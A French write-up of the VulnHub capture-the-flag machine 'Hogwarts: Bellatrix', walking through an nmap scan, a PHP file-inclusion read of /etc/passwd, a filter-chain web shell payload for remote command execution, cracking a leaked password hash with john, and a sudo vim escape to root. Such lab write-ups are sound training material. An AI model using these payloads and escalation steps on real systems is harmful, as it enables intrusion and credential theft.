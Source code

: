 ```yaml
---
title: "Solution du CTF Hogwarts: Bellatrix de VulnHub"
tags: [CTF, VulnHub]
---
```


Le CTF [Hogwarts: Bellatrix](https://vulnhub.com/entry/hogwarts-bellatrix,609/) est un boot2root que je qualifierais de facile. Il y a un peu de jeu de piste mais n'entre jamais dans le mauvais penchant du guessing.

```
Nmap scan report for 192.168.56.64
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4bcec75a9c1f8bcd4703086985c29149 (RSA)
|   256 a12aa8159904cc2a1ee35000f355c2cc (ECDSA)
|_  256 2cd3ec6f4f5b4ae0ea0ac30d2fcb7817 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: AvadaKedavra
|_http-server-header: Apache/2.4.46 (Ubuntu)
```

Sur le site web on trouve ce texte :

```
ikilledsiriusblackikilledsiriusblackikilledsiriusblackikilledsiriusblack

--- snip ---

ikilledsiriusblackikilledsiriusblackikilledsiriusblackikilledsiriusblack.php
```

et dans le code HTML de la page :

```html
    <!-- 
        Nah...this time there are no clues in the source code ... 
        o yeah, maybe I've already told you a directory .php? :)

    -->

/*

   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }

*/
```

Effectivement je trouve un fichier `ikilledsiriusblack.php` qui semble en tout point identique à la page d'index sauf que si on lui passe le paramètre `file` (ex: `file=/etc/passwd`) on obtient la LFI annoncée :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
--- snip ---
bellatrix:x:1000:1000:Bellatrix,,,:/home/bellatrix:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:127:65534::/run/sshd:/usr/sbin/nologin
lestrange:x:1001:1001::/home/lestrange:/bin/rbash
```

On peut déjà rermarquer la présence du `rbash` (restricted bash) comme login pour le compte `lestrange`.

Je ne perds plus mon temps à faire une injection dans un fichier de log, j'utilise directement la technique de chainage des filtres PHP avec [l'outil de Synacktiv](https://github.com/synacktiv/php_filter_chain_generator) :

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```

Je passe le résultat en paramètre de `file` et il ne reste qu'à rajouter mon paramètre `cmd` pour avoir ma RCE.

Déjà sous la racine web je trouve des fichiers étonnants :

```bash
www-data@bellatrix:/var/www/html$ ls -alR
.:
total 732
drwxr-xr-x 3 root      root        4096 Nov 28  2020  .
drwxr-xr-x 3 root      root        4096 Nov 28  2020  ..
-rw-rw-r-- 1 bellatrix bellatrix 728806 Nov 27  2020  1c19c879fe8ef134c3e051c2d69c0c66.gif
drwxr-xr-x 2 root      root        4096 Nov 28  2020 'c2VjcmV0cw=='
-rw-rw-r-- 1 bellatrix bellatrix    151 Nov 28  2020  ikilledsiriusblack.php
-rw-rw-r-- 1 bellatrix bellatrix   1728 Nov 28  2020  index.php

'./c2VjcmV0cw==':
total 16
drwxr-xr-x 2 root root 4096 Nov 28  2020 .
drwxr-xr-x 3 root root 4096 Nov 28  2020 ..
-rw-r--r-- 1 root root 1237 Nov 28  2020 .secret.dic
-rw-r--r-- 1 root root  117 Nov 28  2020 Swordofgryffindor
```

Le fichier `.secret.dic` est une wordlist de 114 lignes contenant des noms ou mots en rapport avec la saga *Harry Potter*.

Le fichier `Swordofgryffindor` contient le hash pour le compte vu précédemment :

`lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0`

Forcément ça ne prend pas long à casser et c'est l'une des caractéristiques des bons CTFs car entre passer une minute ou 2 jours à casser un mot de passe, il n'y a aucune différence au niveau des compétences requises, il suffit de savoir utiliser un outil :

```bash
$ ./john --wordlist=pass.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateharrypotter (lestrange)     
1g 0:00:00:00 DONE (2022-11-19 11:28) 9.090g/s 1036p/s 1036c/s 1036C/s gryffondor..wingardiumleviosa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Une fois connecté on trouve une note dans un fichier `readme.txt` :

```bash
lestrange@bellatrix:~$ cat readme.txt
I WANT TO ESCAPE FROM THE PRISION OF AZKABAN

HAHAHAHHAHAHAHAHHAHAHAHHAHAHAHAHHAHAHAHHAHA!!!!

YOU WONT BE ABLE TO ME, POTTER!! I WAS AND STILL AM THE DARK LORD'S MOST 
LOYAL SERVANT.
```

L'utilisatrice a le droit d'exécuter une commande via sudo :

```bash
lestrange@bellatrix:~$ sudo -l
Coincidiendo entradas por defecto para lestrange en bellatrix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario lestrange puede ejecutar los siguientes comandos en bellatrix:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

La technique est bien sûr d'échapper de vim avec `:!/bin/bash` qui nous donne les droits root :

```bash
lestrange@bellatrix:~$ sudo /usr/bin/vim

root@bellatrix:/home/lestrange# cd /root
root@bellatrix:~# ls
root.txt  script.sh  snap
root@bellatrix:~# cat root.txt
 ____       _ _       _        _      
 |  _ \     | | |     | |      (_)     
 | |_) | ___| | | __ _| |_ _ __ ___  __
 |  _ < / _ \ | |/ _` | __| '__| \ \/ /
 | |_) |  __/ | | (_| | |_| |  | |>  < 
 |____/ \___|_|_|\__,_|\__|_|  |_/_/\_\
  _               _                              
 | |             | |                             
 | |     ___  ___| |_ _ __ __ _ _ __   __ _  ___ 
 | |    / _ \/ __| __| '__/ _` | '_ \ / _` |/ _ \
 | |___|  __/\__ \ |_| | | (_| | | | | (_| |  __/
 |______\___||___/\__|_|  \__,_|_| |_|\__, |\___|
                                       __/ |     
                                      |___/ 

root{ead5a85a11ba466011fced308d460a76}
root@bellatrix:~# cat script.sh
#!/bin/bash

chmod 775 /var/log/auth.log

exit
```

On voit un script qui effectue un chmod sur `auth.log`, il était sans doute destiné à faciliter l'injection de code PHP pour la LFI.

Il y avait aussi un flag dans `/home/bellatrix`. La commande `cd` était restreinte mais les commandes `ls` et cat `non` donc il n'y avait pas de difficultées majeures à obtenir le flag.

*Publié le 19 novembre 2022*
